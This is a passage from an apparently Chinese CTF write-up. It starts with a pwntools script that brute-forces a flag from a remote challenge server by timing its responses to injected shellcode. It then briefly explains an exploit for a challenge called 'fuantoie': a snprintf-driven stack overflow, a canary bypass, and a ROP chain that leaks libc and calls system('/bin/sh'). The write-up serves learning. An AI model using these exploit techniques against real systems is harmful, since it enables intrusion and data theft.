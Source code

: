 ```
    if index == 0:
        shellcode += "cmp byte ptr[rsi+`{`0`}`], `{`1`}`; jz $-3; ret".format(index, ch)
    else:
        shellcode += "cmp byte ptr[rsi+`{`0`}`], `{`1`}`; jz $-4; ret".format(index, ch)

    shellcode = asm(shellcode)

    # p.sendlineafter("execution-box.\n", read_next.ljust(0x30))

    p.sendafter("execution-box.\n", shellcode.ljust(0x40 - 14, b'a') + b'./flag')


index = 0
ans = []
while True:
    for ch in range(0x20, 127):
        if debug:
            p = process([file_path])
        else:
            p = remote('8.131.246.36', 40334)
        pwn(p, index, ch)
        start = time.time()
        try:
            p.recv(timeout=2)
        except:
            pass
        end = time.time()
        p.close()
        if end - start &gt; 1.5:
            ans.append(ch)
            print("".join([chr(i) for i in ans]))
            break
    else:
        print("".join([chr(i) for i in ans]))
        break
    index = index + 1
    print(ans)

print("".join([chr(i) for i in ans]))
```



## fuantoie

这个题目在`edit，show`函数中很多扰乱视线的东西，`add，delete`函数很容易就可以分析出来，并不存在漏洞。因此漏洞主要集中于`edit,show`这两个函数中。

经过手动测试和分析发现漏洞位于`0x4011F1`函数中

[![](https://p0.ssl.qhimg.com/t010937a374d7c9edda.png)](https://p0.ssl.qhimg.com/t010937a374d7c9edda.png)

这里`snprintf`函数的返回结果是我们输入的字符串的长度，也就是`input_200_buf`字符串数组中的长度。因此结合后面的`for`循环就可以进行栈溢出。但是程序开启了`canary`。这里就需要绕过一下，输入`+/-`即可。构造`rop`泄漏出`libc`地址之后，直接`rop`执行`system("/bin/sh")`即可。
